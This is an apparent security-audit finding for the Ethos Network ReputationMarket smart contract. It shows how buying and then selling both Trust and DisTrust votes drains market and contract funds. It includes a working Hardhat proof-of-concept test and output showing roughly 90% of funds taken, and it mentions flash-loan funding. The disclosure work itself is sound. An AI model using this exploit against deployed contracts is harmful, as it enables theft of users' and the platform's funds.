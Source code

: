 Rough Admiral Yak

High

# Attacker can Drain Market and Contract via Opposite Vote Manipulation in `ReputationMarket`

### Summary

An attacker can drain the `ReputationMarket` contract by buying both `Trust` and `DisTrust` votes in a manner that allows them to drain funds from the market and contract. This attack involves purchasing both types of votes and then selling them back to the market, resulting in an increase in the attacker's balance and a decrease in the market's balance.


### Root Cause

The root cause of this issue lies in the market's vote pricing mechanism and the lack of restrictions on buying and selling both `Trust` and `DisTrust` votes. The market allows users to manipulate the vote prices by buying of both types of votes, leading to an imbalance that can be exploited to drain the market.

https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol?plain=1#L920-L923

```javascipt
function _calcVotePrice(Market memory market, bool isPositive) private pure returns (uint256) {
    uint256 totalVotes = market.votes[TRUST] + market.votes[DISTRUST];
    return (market.votes[isPositive ? TRUST : DISTRUST] * market.basePrice) / totalVotes;
}
```


### Internal pre-conditions

The only internal precondition for this issue to be exploitable is the existence of a live market.


### External pre-conditions

_No response_

### Attack Path

- The user creates a market and funds it with an initial liquidity.
- The attacker buys a [significant] amount of Trust votes (depends on how many votes already bought).
- The attacker buys a [significant] amount of DisTrust votes (depends on how many votes already bought).
- The attacker sells all the Trust votes back to the market.
- The attacker sells all the DisTrust votes back to the market.

Note that the attack vote buy amount depends on the amount of votes that already bought by users in that market and both new and old markets are vulnerable. Also, since all buy and sell calls can be batched into a single transaction, attackers do not need too much money and can use flash loans to execute the attack.


### Impact

- Financial Loss: The Contract's funds and market's funds are drained, leading to financial losses for the platform and its participants.
- Attacker Profit: The attacker gains ETH, which they did not initially have, effectively exploiting the market.


### PoC

create new file as test/reputationMarket/drain.test.ts
```javascript
// test/reputationMarket/drain.test.ts
import { loadFixture } from '@nomicfoundation/hardhat-toolbox/network-helpers.js';
import { expect } from 'chai';
import hre from 'hardhat';
import { type ReputationMarket } from '../../typechain-types/index.js';
import { createDeployer, type EthosDeployer } from '../utils/deployEthos.js';
import { type EthosUser } from '../utils/ethosUser.js';
import { DEFAULT, getExpectedVotePrice, MarketUser } from './utils.js';

const { ethers } = hre;

describe('Drain market', () => {
    let deployer: EthosDeployer;
    let ethosUser: EthosUser;
    let marketUser: MarketUser;
    let ethosAttacker: EthosUser;
    let attacker: MarketUser;
    let reputationMarket: ReputationMarket;
    let userAddress: string;
    let attackerAddress: string;

    beforeEach(async () => {
      deployer = await loadFixture(createDeployer);

      if (!deployer.reputationMarket.contract) {
        throw new Error('ReputationMarket contract not found');
      }
      ethosUser = await deployer.createUser();
      await ethosUser.setBalance('100');
      ethosAttacker = await deployer.createUser();
      await ethosAttacker.setBalance('2000');



      marketUser = new MarketUser(ethosUser.signer);
      attacker = new MarketUser(ethosAttacker.signer);
      userAddress = await marketUser.signer.getAddress();
      attackerAddress = await attacker.signer.getAddress();

      console.log("Marker creator initial balance:      ", await ethers.provider.getBalance(userAddress));

      reputationMarket = deployer.reputationMarket.contract;
      DEFAULT.reputationMarket = reputationMarket;
      DEFAULT.profileId = ethosUser.profileId;
      await reputationMarket
        .connect(deployer.ADMIN)
        .setUserAllowedToCreateMarket(DEFAULT.profileId, true);
      // some user create market
      await reputationMarket.connect(marketUser.signer).createMarket({ value: DEFAULT.initialLiquidity });

      console.log("Marker creator after creating market: ", await ethers.provider.getBalance(userAddress));
    });

    it('User can drain funds of market by buying opposite votes', async () => {
      // Record initial user balance and initial market funds before operations
      const initialAttackerBalance = await ethers.provider.getBalance(attackerAddress);
      const initialMarketFunds = await reputationMarket.marketFunds(DEFAULT.profileId);
      const initialContractBalance = await ethers.provider.getBalance(reputationMarket.target);

      // Step 1: Attacker buys positive votes
      const { trustVotes: AttackerPositiveVotes, fundsPaid: buyPositiveFundsPaid } = await attacker.buyVotes({
        buyAmount: DEFAULT.buyAmount * 10n,
        isPositive: true
      });

      // Step 2: Attacker buys negative votes
      const { distrustVotes: AttackerNegativeVotes, fundsPaid: buyNegativeFundsPaid } = await attacker.buyVotes({
        buyAmount: DEFAULT.buyAmount * 8n,
        isPositive: false
      });

      // Step 3: Attacker sells positive votes
      const { fundsReceived: sellPositiveFundsReceived } = await attacker.sellVotes({
        sellVotes: AttackerPositiveVotes,
        isPositive: true
      });

      // Step 4: Attacker sells negative votes
      const { fundsReceived: sellNegativeFundsReceived } = await attacker.sellVotes({
        sellVotes: AttackerNegativeVotes,
        isPositive: false
      });

      // Record final Attacker balance and final market funds after operations
      const finalAttackerBalance = await ethers.provider.getBalance(attackerAddress);
      const finalMarketFunds = await reputationMarket.marketFunds(DEFAULT.profileId);
      const finalContractBalance = await ethers.provider.getBalance(reputationMarket.target);
      const balanceDifference = finalAttackerBalance - initialAttackerBalance;
      const balanceDifferenceInETH = ethers.formatEther(balanceDifference);

      // Assertions
      expect(finalAttackerBalance).to.be.gt(initialAttackerBalance, "Attacker balance did not increase");
      expect(finalMarketFunds).to.be.lt(initialMarketFunds, "Market funds did not decrease");
      expect(finalContractBalance).to.be.lt(initialContractBalance, "Market funds did not decrease");

      // Log the values for verification
      console.log("Attacker Paid for Positive Votes:      ", buyPositiveFundsPaid);
      console.log("Attacker Paid for Negative Votes:      ", buyNegativeFundsPaid);
      console.log("Attacker Received from Selling Pos:    ", sellPositiveFundsReceived);
      console.log("Attacker Received from Selling Neg:    ", sellNegativeFundsReceived);
      console.log("Initial Attacker Balance:              ", initialAttackerBalance);
      console.log("Final Attacker Balance:                ", finalAttackerBalance);
      console.log("Balance Difference (ETH):              ", balanceDifferenceInETH);
      console.log("Initial Market Funds:                  ", initialMarketFunds);
      console.log("Final Market Funds:                    ", finalMarketFunds);
      console.log("Initial Contract Balance (ETH):        ", initialContractBalance);
      console.log("Final Contract Balance (ETH):          ", finalContractBalance);

    });
});
```


here is the output:
```text
└─[0]  NODE_OPTIONS='--no-warnings=ExperimentalWarning --experimental-loader ts-node/esm/transpile-only' npx hardhat test test/reputationMarket/drain.test.ts


  Drain market
Marker creator initial balance:       100000000000000000000n
Marker creator after creating market:  99979639247670882803n
Attacker Paid for Positive Votes:       98198662448662444n
Attacker Paid for Negative Votes:       75813012760640547n
Attacker Received from Selling Pos:     27848892341432357n
Attacker Received from Selling Neg:     164022603428563173n
Initial Attacker Balance:               2000000000000000000000n
Final Attacker Balance:                 2000017145767451772077n
Balance Difference (ETH):               0.017145767451772077
Initial Market Funds:                   20000000000000000n
Final Market Funds:                     2140179439307461n
Initial Contract Balance (ETH):         20000000000000000n
Final Contract Balance (ETH):           2140179439307461n
    ✔ User can drain funds of market by buying opposite votes


  1 passing (943ms)
```

as we can see the contract and market balance decreased around 90% (from 20_000000000000000n to 2_140179439307461n) and attacker balance increased (from 2000000000000000000000n to 2000017145767451772077n) and have 0.017eth profit which can be more if contract had more vote and attacker bought more vote.


### Mitigation

_No response_